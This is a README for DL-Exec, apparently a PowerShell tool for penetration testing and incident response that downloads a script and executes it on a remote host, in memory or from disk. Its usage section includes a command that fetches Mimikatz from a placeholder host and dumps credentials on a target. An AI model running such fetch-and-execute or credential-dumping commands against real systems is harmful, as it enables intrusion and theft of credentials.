		Download and Execute - PowerShell
		greg . foss [at] logrhythm . com
        @heinzarelli
		v0.1 -- July 2015

## [About]

DL-Exec is a simple script that leverages user-supplied parameters to download and execute a PowerShell script with arguments on a remote host. This script can even run without touching disk via the memoryExec parameter, or if run-time parameters are required, the script can be downloaded and executed on the host directly.

## [How To]

    Execute a PowerShell script on a remote host in-memory:
        
        PS C:\> dl-exec.ps1 -source http://some.site/mimikatz.ps1 -target 10.10.10.10 -memoryExec -arguments "Invoke-Mimikatz -DumpCreds"

    Execute a PowerShell script on a remote host with run-time parameters:

        PS C:\> dl-exec.ps1 -source http://some.site/honeyports.ps1 -target 10.10.10.10 -fileExec -arguments "-Ports 21,22"

## [Use Cases]

#####Offensive

Execute various tools from frameworks like PowerSploit, Nishang, etc. on a remote host during penetration testing engagements.
![Mimikatz](/images/remote-mem-dl-exec.png)

#####Defensive

Execute various tools from frameworks like Kansa, Honeyports, etc. on a remote host during Active Defense and/or Incident Response scenarios.
![Honeyports](/images/honeyport-fileexec.png)

#####Other

No matter the script, it's possible to chain additional commands depending on the goal...
![Chaining](/images/command-chaining.png)

## [Parameter Breakdown]

    Script Source and Target Host:

        -source     :   Define the script source
        -target     :   Define the remote host

    Execution Parameters:

        -memoryExec :   Download and execute a script in memory
        -fileExec   :   Download a script and execute it from the host (leaves more traces)
        -arguments  :   Define the command-line arguments/switches/commands to be passed
                        (depending on how the script is executed)

    Credentials:

        -username   :   Administrative Username
        -password   :   Administrative Password

        If neither parameter is supplied, you will be prompted for credentials
        (FYI -- It's a bad idea to supply credentials at the command line, but there are times when it may be required)

## [License]

Copyright (c) 2015, Greg Foss
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
* Neither the name of Greg Foss, LogRhythm, LogRhythm Labs, nor the names of any of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.
* This script is not 'forensically sound' as it will write to the target host. Please keep this in mind.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY
DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND
ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
(INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS
SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.